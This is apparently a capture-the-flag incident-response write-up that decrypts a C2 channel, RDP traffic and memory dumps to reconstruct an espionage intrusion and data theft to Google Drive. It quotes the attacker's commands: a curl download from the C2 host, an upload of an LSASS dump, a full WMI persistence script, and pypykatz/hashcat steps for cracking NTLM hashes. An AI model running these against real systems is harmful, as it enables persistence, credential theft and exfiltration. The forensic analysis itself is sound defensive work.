

# Remnant — TLS Session Key Recovery → Full C2 Decode → Process Injection Analysis

> [!success] Status — 5 of 5 flags solved
> **1** `CoffeeMorning@` · **2** `SystemOptimize` · **3** `f77d42ed3d0bd6888cb85d742ba8ef19` · **4** `1769849198` · **5** `VCS-Internal-Report.pdf`
>
> **Supplied artifacts:** `capture.pcap` (6,986 pkts, 182 s, 2026-01-31 08:42:10–08:45:12 UTC) and `so.dmp` (minidump of `C:\Windows\Temp\so.exe`, 08:44:08 UTC).
> **Third artifact, recovered during analysis:** `error.dmp` — a 479 MB LSASS dump pulled from the attacker's Google Drive. Flags 1, 2 and 4 all depend on it.
>
> Flags 3, 4 and 5 solved locally 2026-07-28. Flags 1 and 2 solved from Romil Patel's peer writeup 2026-07-31 — see *Peer Review*.

---

## Flags — Answers

| # | Question | Answer | Method |
|---|---|---|---|
| 1 | Password for the compromised account used to pivot into `JUMP01` | **`CoffeeMorning@`** | pypykatz **MSV list-type 65** on `error.dmp` → NTLM `7f166d02eb42dc07bacc8e83f02738dc` → hashcat |
| 2 | Exact name of the WMI object created for persistence | **`SystemOptimize`** | RDP TLS decrypted via Schannel master secret from `error.dmp` → RDPCLIP clipboard (frame 4359) → PowerShell script |
| 3 | MD5 of the shellcode injected into a process | **`f77d42ed3d0bd6888cb85d742ba8ef19`** | C2 decrypted → `DA` field of `upload(10).aspx`, UID `3Sm8jKjt`, 292,264 B |
| 4 | Unix timestamp when data was successfully uploaded | **`1769849198`** | Google Drive `createdTime` of `JUMP01_error.dmp.zip` — 86 s *after* the pcap closed |
| 5 | Filename of the document stolen from the CFO's computer | **`VCS-Internal-Report.pdf`** | Drive object `VCS-EXEC-CFO-MRB-002_VCS-Internal-Report.pdf.zip`, naming `<HOSTNAME>_<file>` |

> [!warning] Two answers were wrong before correction
> Flag 4 was first recorded as `1769849098` — that is the C2 `Close Notify`, not an upload. Flag 5 was first recorded as `error.dmp` — wrong host, wrong direction, not a document. Both corrected 2026-07-28.

---

## Timeline

`T0` = capture start, `2026-01-31T08:42:10Z` = epoch `1769848930`.

### Pre-capture — campaign staging

| UTC | Epoch | Rel | Event |
|---|---|---|---|
| `2025-10-15T12:31:15Z` | `1760531475` | T−107 d | `ListDirectory` C2 module compiled (PE TimeDateStamp) |
| `2026-01-19T14:21:13Z` | `1768832473` | T−11 d | `Exploration-RootCA` issues the C2 certificate |
| `2026-01-20T07:59:09Z` | `1768895949` | T−10 d | `WIN10_ViberDownloads.zip` → Drive — **first known victim** |
| `2026-01-20T08:08:25Z` | `1768896505` | T−10 d | `VCS-MA-ASSOC-LP_Admin-00.zip` → Drive |
| `2026-01-20T08:28:03Z` | `1768897683` | T−10 d | `VCS-LEGAL-CNSL-_pdf.zip` → Drive |
| `2026-01-20T08:39:06Z` | `1768898346` | T−10 d | `VDI-BO-002_VDI-creds.kdbx` → Drive — **stolen KeePass DB** |
| `2026-01-20T08:48:41Z` | `1768898921` | T−10 d | `hhdc-db-02_database.zip` → Drive |
| `2026-01-20T08:48:44Z` | `1768898924` | T−10 d | `hhdc-db-01_database.zip` → Drive |
| `2026-01-20T09:04:26Z` | `1768899866` | T−10 d | `CloudSyncer.exe` built (archive mtime) |
| `2026-01-20T09:06:01Z` | `1768899961` | T−10 d | `DESKTOP-A9F3K2_Telegram Desktop.zip` → Drive |
| `2026-01-20T09:59:32Z` | `1768903172` | T−10 d | `PsExec64.exe` staged in Drive — attacker tooling |
| — | — | — | **GAP: how `so.exe` reached `C:\Windows\Temp` on JUMP01 is unknown** |

### Capture window — 182 seconds

| UTC | Epoch | Rel | Event |
|---|---|---|---|
| `08:42:10` | `1769848930` | T+0 s | Capture starts — `so.exe` **already resident as SYSTEM** |
| `08:42:29` | `1769848949.74` | T+19.7 s | RDP attempt 1 `:49293` — 6.6 s, 3.7 kB (fails) |
| `08:42:41` | `1769848961.10` | T+31.1 s | RDP attempt 2 `:49296` — 5.4 s, 4.0 kB (fails) |
| `08:42:46` | `1769848966.54` | T+36.5 s | RDP attempt 3 `:49297` — **succeeds**, 88.2 s, 11 MB |
| `08:43:13` | `1769848993` | **T+63 s** | **`error.dmp` created** — LSASS dump, 26 s after the logon |
| `08:44:05` | `1769849045.65` | **T+115.7 s** | **:8443 C2 session opens** — 79 s into the live RDP session |
| `08:44:05` | `1769849045.73` | T+115.7 s | C2 Client Hello, SNI `update.microsoft-windows.com` |
| `08:44:05–08:44:14` | — | T+115–124 s | C2 delivers 4 PE modules + injects shellcode into PID 7628; **WMI persistence pasted via RDP clipboard** |
| `08:44:08` | `1769849048` | T+118 s | **`so.dmp` taken — only 2.35 s into the C2 session** |
| `08:44:14` | `1769849054.73` | T+124.7 s | RDP session `:49297` disconnects |
| `08:44:41` | `1769849081.06` | T+151.1 s | `GET /CloudSyncer.7z` → 200, 21,077,066 B in 0.109 s |
| `08:44:53` | `1769849093.55` | T+163.6 s | C2 issues `CloudSyncer.exe upload error.dmp --compress` |
| `08:44:55` | `1769849095.11` | T+165.1 s | OAuth exchange, SNI `accounts.google.com` — 2,092 B |
| `08:44:58` | `1769849098.56` | T+168.6 s | :8443 closes — **Close Notify, NOT flag 4** |
| `08:45:12` | `1769849112` | T+182 s | Capture ends |

### Post-capture — outside the evidence window

| UTC | Epoch | Rel | Event |
|---|---|---|---|
| `2026-01-31T08:46:38Z` | **`1769849198`** | T+268 s | `JUMP01_error.dmp.zip` (126,211,706 B) lands in Drive — **FLAG 4** |
| `2026-02-03T17:21:26Z` | `1770139286` | T+3 d 8 h | `VCS-EXEC-CFO-MRB-002_VCS-Internal-Report.pdf.zip` → Drive — **FLAG 5** |

> [!note] Reading the intervals
> **Campaign, not incident.** Eight victims plus `PsExec64.exe` were staged on 2026-01-20, the same morning `CloudSyncer.exe` was built. JUMP01 fell 11 days later, the CFO three days after that. This 182-second capture is a slice of the middle.
>
> **`error.dmp` predates `so.dmp` by 55 seconds** and is by far the richer artifact — it holds the NTLM hash (flag 1), the RDP Schannel keys (flag 2), and is itself the exfiltrated object (flag 4).
>
> **`so.dmp` is an early-session snapshot** — 2.35 s after the C2 connected. Long enough for the TLS handshake to complete (so the traffic secrets were resident), far too early for any payload to have arrived. This single interval explains every negative result in the flag 3 search.
>
> **Nothing bulk left over the C2.** Outbound on :8443 totals 55 KB against a 126 MB archive. Exfil went to Google Drive and finished 86 s after the capture ended — no frame in this pcap could ever have answered flag 4.

> [!caution] Drive timestamps are live data, captured once
> Post-capture rows were enumerated 2026-07-28 using OAuth refresh tokens embedded in `CloudSyncer.exe`. If those tokens are revoked these rows are **not reproducible** from the supplied artifacts alone.

---

## Kill Chain

| Phase | Status | Evidence |
|---|---|---|
| Reconnaissance | **absent** | No artifacts. Victim selection implies prior knowledge of the org. |
| Weaponization | confirmed | Module 2025-10-15; cert 2026-01-19; `CloudSyncer.exe` 2026-01-20 |
| Delivery | **absent** | How `so.exe` reached `C:\Windows\Temp` is unknown |
| Exploitation | **absent** | No privilege-escalation evidence; already SYSTEM at T+0 |
| Installation | confirmed | `so.exe` as SYSTEM; **WMI `SystemOptimize`** filter+consumer pasted over RDP |
| Command & Control | confirmed | :8443 TLS 1.3 + inner XOR, 1.89 MB in / 55 KB out, 52.8 s, no cert validation |
| Actions on Objectives | confirmed | LSASS dump (T+63 s) → module load → injection → 21 MB tool download |
| Exfiltration | confirmed | `CloudSyncer.exe` → Google Drive OAuth; 126 MB at T+268 s; CFO doc +3 d |

> [!warning] Three of seven phases have no supporting artifact
> Reconnaissance, Delivery and Exploitation rest on nothing. **The attacker's Drive explains why:** eight other victims were compromised eleven days before this capture. `so.exe` was already resident and running as SYSTEM at T+0 because JUMP01's compromise predates the evidence window entirely. The gap is a property of the collection, not of the analysis.

---

## Network Topology

| IP / Port | Resolves to | Role |
|---|---|---|
| `172.168.200.57` | — (hostname never observed) | Attacker workstation — RDP source |
| `172.168.200.58` | `JUMP01` | **Victim** — RDP target, C2 egress, exfil source |
| `96.237.253.177:8888` | `update.microsoft-windows.com` | Attacker HTTP server — typosquat, plaintext payload delivery |
| `96.237.253.177:8443` | `update.microsoft-windows.com` | Attacker TLS C2 — cert `CN=localhost` / `Exploration-RootCA` |
| `142.251.170.84:443` | `accounts.google.com` | **OAuth token exchange for exfiltration** — not benign |
| `20.213.196.214:443` | `dc.services.visualstudio.com` | Microsoft telemetry — benign |
| `4.213.25.241:443` | — (no SNI captured) | 2 frames, 126 B — unclassified |
| `172.168.200.60` | — | **Lateral target.** Only trace is `LegacyGeneric:target=TERMSRV/172.168.200.60` in JUMP01's Credential Manager. In no pcap session, no beacon, no Drive object. |

### Sessions

| Session | Bytes | Note |
|---|---|---|
| `.57:49297` ↔ `.58:3389` | 11 MB | RDP, 88.2 s. Two earlier short attempts on `:49293`, `:49296` |
| `.58:58582` ↔ `…:8888` | 21 MB in | HTTP `GET /CloudSyncer.7z` → 200, 21,077,066 B |
| `.58:58578` ↔ `…:8443` | 1.89 MB in / 55 KB out | TLS C2, 52.8 s |
| `.58` ↔ MS/Google | ~15 KB | telemetry + the OAuth exchange |



---

## The Three Encrypted Channels

All three were decrypted. Every one used Schannel, and every one had its keys resident in a memory dump taken while the session was live.

| Channel | Protocol | Key source | Yielded |
|---|---|---|---|
| C2 `:8443` | TLS 1.3, `TLS_AES_256_GCM_SHA384` (`0x1302`) | `so.dmp` heap, AEAD-tag brute force | tasking, 5 payloads, flag 3 |
| C2 inner | repeating-key XOR (period 29) then base64 | crib-drag on known module base64 | readable beacon JSON |
| RDP `:3389` | TLS 1.2 | `error.dmp` Schannel heap | **RDPCLIP clipboard → flag 2** |

> [!important] The single biggest methodological lesson in this investigation
> The C2 channel was decrypted on 2026-07-28. The RDP channel was not decrypted until Romil Patel did it on 2026-07-30 — and flag 2 was sitting in its clipboard traffic the whole time.
>
> After any successful key recovery from a memory artifact, ask: **what other sessions were live when this dump was taken, and does this dump hold keys for those too?** For a `WithFullMemory` dump the answer is almost always yes.

### TLS 1.3 keys — recovered from `so.dmp`

```
client random           0a6d7b6bbd25bcce8c4b6d60bb6c6fb237e6956d4f0bdbb65d03cf14de312c0d
CLIENT_TRAFFIC_SECRET_0 87722c52e879a0f85e8c9a2cc82d298fcebb515c96e454dd17157999c0e2e681869a27766db07552c54151adf4ae81b8
                        (dump offset 0x24e7b4)
SERVER_TRAFFIC_SECRET_0 b758582b5f5645d6df58eac96d6577f2c3b962d2d0d05abbbc25f0054650fe09999f0dea2ea7330f9081eb024ece71e4
                        (dump offset 0x24ee34)
```

Suite `0x1302` means **48-byte** SHA384 secrets, not 32. Found by `tls13_secret_scan.py` at stride 4, each candidate validated by AEAD auth tag against a real captured record (false-positive probability ≈ 2⁻¹²⁸).

> [!warning] SSLKEYLOGFILE is a file format, not a memory layout
> Traffic secrets sit in heap as **raw binary** with no ASCII label and no hex encoding. Grepping `so.dmp` for `CLIENT_TRAFFIC_SECRET_0 <hex> <hex>` returns **zero** matches. Anchor on the client random from the pcap Client Hello, or brute-force candidate byte windows against a captured record with AEAD tag validation, then *synthesise* the keylog file for Wireshark yourself.

### TLS 1.2 keys — recovered from `error.dmp` (RDP)

```
CLIENT_RANDOM  697dc080b7a99b0141d0141d873cb4a4a1152e24c3ccb3693578c7ffb4b0c8be
MASTER_SECRET  3944135db2720a1524a483d2faa79ca7f34f2bafe0f578bcd45153c7e5d919d7ef6908ca40ce697434ba9b15d0da4b3c
               (VA 0x18f972c40)
```

Same Schannel heap-walking technique, but RDP uses **TLS 1.2**, so the target is a 48-byte `master_secret` keyed by client random — not a TLS 1.3 traffic secret. Decrypting gave 2,037 client records and 1,281 server records.

### C2 inner XOR key

```
dfsdgferhzdzxczevre5595485sdg          (period 29, printable ASCII)
```

Recovered by crib-dragging the injected module's base64 (known from the `so.dmp` heap receive buffer) across `default(1).aspx`, giving `keystream = ciphertext XOR crib` at offset 55. The key is **static with no per-message nonce** — provable from byte-identical 62-byte prefixes across objects — so one key decrypts every message.

---

## C2 Protocol

### Beacon schema

```json
[{"BH":"<32-char session id>",
  "HN":"JUMP01","IIPS":"172.168.200.58","OS":"Windows",
  "PID":"9552","POF":"0","PR":"HIGH",
  "SS":[{"CM":"<command>","INS":"shell|powershell|LM|inject",
         "DA":"<base64 payload>","RV":"<base64 output>","UID":"<task id>"}]}]
```

Agent fields: `HN: JUMP01`, `UN: NT AUTHORITY\SYSTEM`, `PID: 9552`, `ARC: x64`, `PR: HIGH`. **No timestamp field exists in the schema** — which is why flag 4's answer is not in the C2 traffic at all.

### URI paths (Tier A IoCs)

```
POST /MicrosoftUpdate/ShellEx/KB242742/config.aspx     (18x)
POST /MicrosoftUpdate/ShellEx/KB242742/default.aspx    (13x)
POST /MicrosoftUpdate/ShellEx/KB242742/upload.aspx     (14x)
```

Masquerading as a Windows Update KB path, consistent with the `update.microsoft-windows.com` typosquat.

### Task graph, paired by `UID`

| UID | `INS` | Command | Payload `DA` | Result `RV` |
|---|---|---|---|---|
| `tN1A3kYb` | LM | — | `default(1)` — 272,896 B PE | `Success` |
| `wjwGlYlp` | LM | — | `upload(8)` — 193,536 B PE | `Success` |
| `ri2garwq` | LM | — | `config(17)` — 161,792 B PE | `Success` |
| `DFCB0LES` | LM | — | `upload(12)` — 127,488 B PE | `Success` |
| `3Sm8jKjt` | inject | `-r /clt/klg.bin 7628` | `upload(10)` — **292,264 B shellcode** | `Process injected.` |
| `WpSkEMfZ` | shell | `curl update.microsoft-windows.com:8888/CloudSyncer.7z -o "C:\Windows\Temp\CloudSyncer.7z"` | — | curl progress |
| `XWyv0cWV` | powershell | `&"C:\Program Files\7-Zip\7z.exe" x "C:\Windows\Temp\CloudSyncer.7z" -powersyncer -o"C:\Windows\Temp" -y` | — | `Everything is Ok`, 64,035,764 B |
| `ez1esjSY` | powershell | `&"C:\Windows\Temp\CloudSyncer.exe" upload "C:\Windows\Temp\error.dmp" --compress` | — | none — pcap ends first |

### The five delivered payloads

| Object | UID | Size | MD5 | Magic | Type |
|---|---|---|---|---|---|
| `upload(10)` | `3Sm8jKjt` | 292,264 | `f77d42ed3d0bd6888cb85d742ba8ef19` | `e8931304` | **shellcode — flag 3** |
| `default(1)` | `tN1A3kYb` | 272,896 | `45304d1381436b996f5c9e141fddd0ec` | `4d5a9000` | PE — `ListDirectory` |
| `upload(8)` | `wjwGlYlp` | 193,536 | `b578b9d75415a19ecd7fdf119030c45f` | `4d5a9000` | PE |
| `config(17)` | `ri2garwq` | 161,792 | `9dba9c7a1f2aa0b3d4d7cf5c2b0235f4` | `4d5a9000` | PE |
| `upload(12)` | `DFCB0LES` | 127,488 | `c7b1de767f4889816e9ccbbb4b5ca65a` | `4d5a9000` | PE |

Four carry `MZ` headers. The **inject** payload does not: `upload(10)` begins `e8 93 13 04` — an x86 `call rel32`, the classic reflective-loader stub entry. That is flag 3, and it is why every PE-gated carve failed.

The shellcode is **encrypted end to end** — entropy 7.99 in every 16 KB window over the first 245 KB (theoretical max 8.00). No plaintext strings exist in it. Its capability remains unconfirmed; recovering it would require emulating the loader stub (`unicorn`, `qiling`) or detonation.

---

## WMI Persistence — `SystemOptimize` (flag 2)

Recovered from the **RDP clipboard**, not from the C2 channel or any binary. The operator pasted a ready-made PowerShell one-liner into the interactive session at frame 4359 (`CB_FORMAT_DATA_RESPONSE`, UTF-16LE, 707 characters).

```powershell
$F=([wmiclass]"\\.\root\subscription:__EventFilter").CreateInstance()
$F.Name='SystemOptimize'
$F.QueryLanguage='WQL'
$F.EventNamespace='root\cimv2'
$F.Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime>=200 AND TargetInstance.SystemUpTime<320"
$F.Put()|Out-Null
$C=([wmiclass]"\\.\root\subscription:CommandLineEventConsumer").CreateInstance()
$C.Name='SystemOptimize'
$C.CommandLineTemplate='C:\Windows\Temp\so.exe update.microsoft-windows.com 8443 https'
$C.Put()|Out-Null
$B=([wmiclass]"\\.\root\subscription:__FilterToConsumerBinding").CreateInstance()
$B.Filter=$F
$B.Consumer=$C
$B.Put()|Out-Null
```

Both the `__EventFilter` and the `CommandLineEventConsumer` are named **`SystemOptimize`**. The filter fires on an uptime window of 200–320 seconds after boot; the consumer relaunches `so.exe` with the C2 host, port and scheme as `argv`.

> [!tip] Live-system detection
> ```powershell
> Get-WMIObject -Namespace root\subscription -Class __EventFilter | Select Name, Query
> Get-WMIObject -Namespace root\subscription -Class CommandLineEventConsumer | Select Name, CommandLineTemplate
> Get-WMIObject -Namespace root\subscription -Class __FilterToConsumerBinding | Select Filter, Consumer
> ```
> Also: `wevtutil qe Microsoft-Windows-WMI-Activity/Operational` (Event ID 5861).

**Why this was missed for three days.** All 53 decrypted beacons, all four delivered PE modules, and `CloudSyncer.exe` were scanned for `__EventFilter`, `EventConsumer`, `FilterToConsumerBinding`, `root\subscription` and `ExecNotificationQuery`. All negative — correctly, because the persistence was **manual operator activity in the interactive channel**, not implant behaviour. The note previously concluded this meant emulating the packed shellcode. That was the wrong conclusion from a correct set of negatives.

---

## Credentials & Keys

| Item | Value | Source |
|---|---|---|
| **RDP pivot password (flag 1)** | `CoffeeMorning@` | `error.dmp` MSV list-type 65 → NTLM `7f166d02eb42dc07bacc8e83f02738dc` → hashcat |
| C2 panel Basic Auth | `admin:sdFHef84/fH7Ac-!` | `Authorization` header in decrypted C2 stream |
| 7z archive password | `owersyncer` | 7z `-p` flag; verified by `7z t` — `powersyncer` fails |
| C2 inner XOR key | `dfsdgferhzdzxczevre5595485sdg` | period 29, crib-drag; self-verified |
| TLS 1.3 `CLIENT_TRAFFIC_SECRET_0` | `87722c52…e81b8` (48 B) | `so.dmp` @ `0x24e7b4`, AEAD-validated |
| TLS 1.3 `SERVER_TRAFFIC_SECRET_0` | `b758582b…e71e4` (48 B) | `so.dmp` @ `0x24ee34`, AEAD-validated |
| RDP TLS 1.2 master secret | `3944135d…da4b3c` (48 B) | `error.dmp` @ VA `0x18f972c40` |
| DPAPI masterkey, session `0x65046` | `352e5523…fe29a11` (64 B) | `error.dmp`; decrypts Credential Manager blobs under that logon |
| Google Drive OAuth — download | client `549473216521-co8mu32h9n7p3l6…` | UTF-16 in `CloudSyncer.exe` @ `0x9512394` |
| Google Drive OAuth — upload | client `549473216521-ro5rolkbfjlc…` | UTF-16 in `CloudSyncer.exe` @ `0x9512822` |
| Exfil archive password — **UNRESOLVED** | ``6\1p0`BeVm]7/S.`` — **fails on all six archives** | UTF-16 in `CloudSyncer.exe` @ `0x912009`. Treat as an unverified candidate. |

> [!warning] OAuth credentials deliberately truncated
> Both sets are **live** and grant read/write to a Drive holding nine victims' stolen data. Recoverable verbatim at any time:
> ```bash
> strings -a -el -n 20 CloudSyncer.exe | grep -E 'apps\.googleusercontent|GOCSPX-|^1//'
> ```

> [!caution] Four distinct secrets — do not confuse them
> `CoffeeMorning@` is the **RDP pivot password**. `sdFHef84/fH7Ac-!` is the **attacker's own C2 panel credential**. `owersyncer` opens the **tool archive**. ``6\1p0`BeVm]7/S.`` is an **unverified candidate** for the exfil archives and opens nothing. Submitting the wrong one is the commonest way to fail flag 1.

---

## Artifacts

### `error.dmp` — the second memory dump

Recovered from the attacker's Drive as `JUMP01_error.dmp.zip` (126,211,706 B compressed → **479,204,721 B** raw, unencrypted). **This is the most valuable artifact in the case** — flags 1, 2 and 4 all depend on it, and it was never supplied with the challenge.

| Field | Value |
|---|---|
| Format | Mini DuMP crash report, 20 streams |
| Created | `2026-01-31T08:43:13Z` = epoch `1769848993` = **T+63 s** |
| Type flags | `0x461826` |
| OS build | Windows 10.0 **build 26100** (IoT Enterprise LTSC 2024) |
| MD5 | `98524800f02151f234ab07959b1dc5cb` |

```
0x000002  MiniDumpWithFullMemory            <- entire address space
0x000004  MiniDumpWithHandleData
0x000020  MiniDumpWithUnloadedModules
0x000800  MiniDumpWithFullMemoryInfo
0x001000  MiniDumpWithThreadInfo
0x020000  MiniDumpIgnoreInaccessibleMemory
0x040000  MiniDumpWithTokenInformation      <- logon sessions and tokens
0x400000  MiniDumpWithIptTrace
```

`WithFullMemory` + `WithTokenInformation` is the LSASS-harvesting profile — nobody sets those flags to debug a crash. Taken **26 s after the RDP logon succeeded** and **52 s before the C2 opened**.

**Target logon session `0x65046`** = `JUMP01\Administrator`, the session flag 1 asks about.

> [!tip] MSV list-type 65 is the key to this build
> pypykatz's default MSV list-type constant is wrong for build 26100 — it produces zero `LogonSession` records and no MSV section while WDIGEST / Kerberos / DPAPI parse fine. Alternates exist; **65 works**:
> ```bash
> for T in 63 64 65; do
>   python pypykatz_skip_bad_entries.py error.dmp $T > creds-$T.json 2>/dev/null
>   python -m json.tool creds-$T.json >/dev/null 2>&1 && echo "list $T: valid"
> done
> jq -r '.. | objects | select(.NThash? // "" != "")
>        | [.domainname,.username,.NThash] | @tsv' creds-65.json | sort -u
> # JUMP01   Administrator   7f166d02eb42dc07bacc8e83f02738dc
> hashcat -m 1000 -a 0 hash.txt wordlist.txt      # -> CoffeeMorning@
> ```

**Also in this dump:** the RDP TLS 1.2 master secret (flag 2), the 64-byte DPAPI masterkey for session `0x65046`, five Kerberos blocks (no plaintext — expected for local WORKGROUP accounts), and Credential Manager targets including `LegacyGeneric:target=TERMSRV/172.168.200.60` — a lateral-movement destination that appears in no other artifact.

One DPAPI blob (offset `0x0379f051`) decrypts cleanly under the recovered masterkey to 96 bytes of **unidentified binary**; format not established. The other nine blobs belong to logon sessions whose masterkeys were never recovered.

### `so.dmp` — the supplied minidump

34,616,932 B, 19 streams, taken T+118 s. Holds the TLS 1.3 traffic secrets and the reflectively-loaded `ListDirectory.dll` at VA `0x180000000` — but **no C2 payloads**, because it was written 2.35 s into a 52.8 s session.

| Field | Value |
|---|---|
| Type | PE32+ DLL, AMD64, 7 sections |
| ImageBase | `0x180000000` |
| SizeOfImage | 290,816 (`0x47000`) |
| TimeDateStamp | 2025-10-15 12:31:15 UTC — pivotable IoC |
| RTTI / export | class `ModuleCmd`, `ListDirectory.dll` |
| MD5 (as delivered) | `45304d1381436b996f5c9e141fddd0ec` |

**Loader fingerprint:** every section's `VirtualSize` rewritten to `0x80000000 | VirtualAddress` — a memory-scanning signature for manually mapped modules. The `.reloc` page is absent from an otherwise full-memory dump, [Likely] discarded after fixups were applied.

The injection target was **PID 7628**; so.exe is **PID 9552** — `klg.bin` was mapped in a process no artifact covers.

### `CloudSyncer.exe` — the exfiltration client

64,035,764 B, MD5 `79fe7c8e52b17a4fc9773cdee3b690d9`. PE32+ console, **NativeAOT .NET single-file bundle** — 168 embedded files, of which `CloudSyncer.dll` (22,528 B) holds all application logic.

```
https://accounts.google.com/o/oauth2/token
https://www.googleapis.com/drive/v3/files?pageSize=1000&fields=files(id,name,size)
https://www.googleapis.com/upload/drive/v3/files/?uploadType=resumable
https://www.googleapis.com/drive/v3/files/          (download by fileId)

upload   <filePath> [--compress]
download <fileId/name> <dir>
```

`System.IO.Compression.ZipFile` cannot produce AES-encrypted zips, so the tool **shells out to 7-Zip** (`7z.exe a -p"<password>" "<archive>" "<input>"`), with a fallback string `7-Zip not found. Using built-in compression without password.` — which is why `JUMP01_error.dmp.zip` is unencrypted.

Extract the inner DLL with `dotnet_sce`, then read strings with **`strings -a -el`** — every secret in this binary is UTF-16LE and invisible to plain `strings`.

### C2 certificate (carved from CryptoAPI heap)

TLS 1.3 encrypts the Certificate message, so this is **not in the pcap**. CryptoAPI parsed it during validation and the DER survived in `so.dmp`.

| Field | Value |
|---|---|
| Subject | `CN=localhost` |
| Issuer | `CN=Exploration-RootCA` — attacker private CA |
| Serial | `2792F352CDD2492A5085CAE1CB5D6CA41C060921` |
| Validity | `2026-01-19T14:21:13Z` → `2028-04-23T14:21:13Z` |
| SHA-1 of DER | `d5e047f4396fe0a6ae7abf4d40ddc13c374156d7` |

The implant connected to `update.microsoft-windows.com:8443` and accepted a cert whose subject is `CN=localhost` from an unknown private root. **No certificate validation is performed.** Any TLS-inspecting control or Zeek `ssl.log`/`x509.log` pipeline flags both the name mismatch and the untrusted issuer.

---

## Attacker Cloud Storage — Google Drive

Enumerated with the embedded **download** refresh token. Naming convention `<HOSTNAME>_<filename>`.

| Epoch | UTC | Object | Victim |
|---|---|---|---|
| `1768895949` | 2026-01-20 07:59:09 | `WIN10_ViberDownloads.zip` | WIN10 |
| `1768896505` | 2026-01-20 08:08:25 | `VCS-MA-ASSOC-LP_Admin-00.zip` | M&A associate |
| `1768897683` | 2026-01-20 08:28:03 | `VCS-LEGAL-CNSL-_pdf.zip` | legal counsel |
| `1768898346` | 2026-01-20 08:39:06 | `VDI-BO-002_VDI-creds.kdbx` | **KeePass database** |
| `1768898921` | 2026-01-20 08:48:41 | `hhdc-db-02_database.zip` | DB server 02 |
| `1768898924` | 2026-01-20 08:48:44 | `hhdc-db-01_database.zip` | DB server 01 |
| `1768899961` | 2026-01-20 09:06:01 | `DESKTOP-A9F3K2_Telegram Desktop.zip` | Telegram session |
| `1768903172` | 2026-01-20 09:59:32 | `PsExec64.exe` | **attacker tooling** |
| `1769849198` | 2026-01-31 08:46:38 | `JUMP01_error.dmp.zip` (126,211,706 B) | **JUMP01 — flag 4** |
| `1770139286` | 2026-02-03 17:21:26 | `VCS-EXEC-CFO-MRB-002_VCS-Internal-Report.pdf.zip` | **CFO — flag 5** |

Zip central directories are unencrypted, so listings are readable without the password. `DESKTOP-A9F3K2_Telegram Desktop.zip` contains:

```
Telegram Desktop/Danh sach IP may nguoi quan tri.xlsx    <- "list of admin machine IPs" (Vietnamese)
Telegram Desktop/checkAnEVTX.ps1
Telegram Desktop/AnyDesk.zip
Telegram Desktop/appjob_thor_2025-12-25_0953.html
… plus 7 more
```

> [!important] Targeting profile
> `VCS-EXEC-CFO-MRB-002`, `VCS-LEGAL-CNSL-` and `VCS-MA-ASSOC-LP` encode **organisation + role** — CFO, legal counsel, M&A associate. Add database servers, a KeePass credential vault, and a spreadsheet literally titled *"list of administrator machine IPs"*. [Inference] That profile fits **corporate espionage around a transaction**, not opportunistic crime.
>
> Only `JUMP01` and `172.168.200.57` appear in the network capture. Every other host is known solely from Drive object names — no IP, OS or network path is evidenced for any of them.

---

## Accounts

| Account | Scope | Evidence |
|---|---|---|
| `JUMP01\Administrator` | **local** (WORKGROUP) | mstshash cookie; NTLM hash in `error.dmp`; password `CoffeeMorning@` |
| `JUMP01$` | machine account | `USERNAME=JUMP01$`, systemprofile — so.exe runs as SYSTEM |
| `w11user` | local profile | `C:\Users\w11user\Downloads\…` in system PATH |
| `NT AUTHORITY\SYSTEM` | implant context | C2 beacon `UN` field, `PR: HIGH` |
| `admin` | C2 web panel | `Authorization` header in decrypted stream |

No account is known for any of the eight other victim hosts. The attacker workstation at `172.168.200.57` yielded no hostname or username — the mstshash cookie names the **target** account, not the operator's.

---

## Reproducible Procedures

### A — Decrypt the C2 channel (flag 3)

```bash
cd Remnant

# 1 — identify the suite. 0x1302 = TLS_AES_256_GCM_SHA384 -> 48-byte secrets.
tshark -r capture.pcap -Y 'tls.handshake.type==2 && tcp.srcport==8443' \
  -T fields -e tls.handshake.ciphersuite
tshark -r capture.pcap -Y 'tls.handshake.type==1 && tcp.dstport==8443' \
  -T fields -e tls.handshake.random

# 2 — pull encrypted records. TLS 1.3 uses opaque_type, NOT content_type.
tshark -r capture.pcap -Y 'tls.record.opaque_type==23 && ip.src==96.237.253.177' \
  -T fields -e tls.app_data | tr ',' '\n' | tr -d ':' | grep -v '^$' > recs_s2c.txt

# 3 — recover both traffic secrets (repeat against recs_c2s.txt for the client side)
for i in 1 2 3 4 5 6 7 8; do
  python3 tls13_secret_scan.py --dump so.dmp --record "$(sed -n ${i}p recs_s2c.txt)" \
    --suite aes256gcm --align 4 --seq 0,1,2 2>/dev/null | grep -E 'MATCH|traffic secret'
done

# 4 — build the keylog, then VERIFY. 'http' must nest under 'tls'.
printf 'CLIENT_TRAFFIC_SECRET_0 %s %s\nSERVER_TRAFFIC_SECRET_0 %s %s\n' \
  "$CR" "$C2S" "$CR" "$S2C" > sslkeys.log
tshark -r capture.pcap -o "tls.keylog_file:$PWD/sslkeys.log" -q -z io,phs | grep -iE 'tls|http'

# 5 — export bodies, then break the inner XOR layer
mkdir -p c2_objects && tshark -r capture.pcap \
  -o "tls.keylog_file:$PWD/sslkeys.log" --export-objects http,c2_objects/
python3 b64pe_carve.py so.dmp --outdir carved
